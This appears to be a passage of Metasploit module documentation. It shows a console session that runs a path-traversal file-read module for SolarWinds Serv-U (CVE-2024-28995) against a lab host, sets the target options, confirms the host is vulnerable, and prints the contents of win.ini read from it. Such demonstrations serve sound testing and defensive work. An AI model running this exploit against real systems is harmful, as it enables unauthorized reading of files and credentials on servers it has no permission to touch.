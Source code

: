 ### A vulnerable Windows target

```
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RHOST 192.168.86.68
RHOST => 192.168.86.68
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RPORT 80
RPORT => 80
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set TARGETFILE c:\\\\Windows\\win.ini
TARGETFILE => c:\\Windows\win.ini
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > show options 

Module options (auxiliary/gather/solarwinds_servu_fileread_cve_2024_28995):

   Name                  Current Setting      Required  Description
   ----                  ---------------      --------  -----------
   PATH_TRAVERSAL_COUNT  4                    yes       The number of double dot (..) path segments needed to traverse to the root folder.
   Proxies                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                192.168.86.68        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 80                   yes       The target port (TCP)
   SSL                   false                no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT            false                no        Store the target file as loot
   TARGETFILE            c:\\Windows\win.ini  yes       The full path of a target file to read.
   TARGETURI             /                    yes       The base URI path to the web application
   VHOST                                      no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > check
[+] 192.168.86.68:80 - The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Windows Server 2012 64-bit; Version: 6.2.9200)
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > run
[*] Running module against 192.168.86.68

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Windows Server 2012 64-bit; Version: 6.2.9200)
[*] Reading file c:\\Windows\win.ini
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

[*] Auxiliary module execution completed
msf auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) >
```
